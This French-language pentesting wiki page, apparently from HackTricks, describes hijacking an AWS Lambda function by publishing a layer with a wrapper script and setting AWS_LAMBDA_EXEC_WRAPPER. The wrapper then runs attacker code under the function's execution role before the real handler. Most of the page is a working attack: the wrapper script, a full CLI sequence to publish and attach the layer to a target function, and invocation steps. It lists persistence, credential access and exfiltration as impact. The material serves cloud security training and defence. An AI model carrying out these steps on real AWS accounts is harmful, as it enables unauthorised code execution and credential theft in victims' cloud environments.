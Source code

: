 # AWS - Lambda Exec Wrapper Layer Hijack (Pre-Handler RCE)

{{#include ../../../../banners/hacktricks-training.md}}

## Résumé

Abusez de la variable d'environnement `AWS_LAMBDA_EXEC_WRAPPER` pour exécuter un script wrapper contrôlé par l'attaquant avant que le runtime/handler ne démarre. Déployez le wrapper via un Lambda Layer à `/opt/bin/htwrap`, définissez `AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap`, puis invoquez la fonction. Le wrapper s'exécute dans le processus runtime de la fonction, hérite du rôle d'exécution de la fonction, et finit par `exec` le runtime réel afin que le handler d'origine s'exécute normalement.

> [!WARNING]
> Cette technique donne une exécution de code dans la Lambda cible sans modifier son code source ni son rôle et sans nécessiter `iam:PassRole`. Vous avez seulement besoin de la capacité à mettre à jour la configuration de la fonction et à publier/attacher un layer.

## Permissions requises (attaquant)

- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction` (ou déclencher via un événement existant)
- `lambda:ListFunctions`, `lambda:ListLayers`
- `lambda:PublishLayerVersion` (même compte) et éventuellement `lambda:AddLayerVersionPermission` si vous utilisez un layer cross-account/public

## Wrapper Script

Placez le wrapper à `/opt/bin/htwrap` dans le layer. Il peut exécuter de la logique pré-handler et doit se terminer par `exec "$@"` pour chaîner vers le runtime réel.
```bash
#!/bin/bash
set -euo pipefail
# Pre-handler actions (runs in runtime process context)
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json, os
try:
ident = boto3.client('sts').get_caller_identity()
print('[ht] sts identity:', json.dumps(ident))
except Exception as e:
print('[ht] sts error:', e)
PY
# Chain to the real runtime
exec "$@"
```
## Étapes d'attaque (CLI)

<details>
<summary>Publier la layer, l'attacher à la fonction cible, définir le wrapper, invoquer</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# 1) Package wrapper at /opt/bin/htwrap
mkdir -p layer/bin
cat > layer/bin/htwrap <<'WRAP'
#!/bin/bash
set -euo pipefail
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json
print('[ht] sts identity:', __import__('json').dumps(__import__('boto3').client('sts').get_caller_identity()))
PY
exec "$@"
WRAP
chmod +x layer/bin/htwrap
(zip -qr htwrap-layer.zip layer)

# 2) Publish the layer
LAYER_ARN=$(aws lambda publish-layer-version \
--layer-name ht-exec-wrapper \
--zip-file fileb://htwrap-layer.zip \
--compatible-runtimes python3.11 python3.10 python3.9 nodejs20.x nodejs18.x java21 java17 dotnet8 \
--query LayerVersionArn --output text --region "$REGION")

echo "$LAYER_ARN"

# 3) Attach the layer and set AWS_LAMBDA_EXEC_WRAPPER
aws lambda update-function-configuration \
--function-name "$TARGET_FN" \
--layers "$LAYER_ARN" \
--environment "Variables={AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap}" \
--region "$REGION"

# Wait for update to finish
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --query LastUpdateStatus --output text --region "$REGION")" = "Successful" ]; do sleep 2; done

# 4) Invoke and verify via CloudWatch Logs
aws lambda invoke --function-name "$TARGET_FN" /tmp/out.json --region "$REGION" >/dev/null
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 50 --region "$REGION" --query 'events[].message' --output text
```
</details>

## Impact

- Exécution de code pré-handler dans le contexte d'exécution Lambda en utilisant le rôle d'exécution existant de la fonction.
- Aucun changement du code de la fonction ou du rôle requis ; fonctionne sur les runtimes managés courants (Python, Node.js, Java, .NET).
- Permet la persistance, l'accès aux identifiants (p. ex., STS), l'exfiltration de données et la manipulation du runtime avant l'exécution du handler.

{{#include ../../../../banners/hacktricks-training.md}}
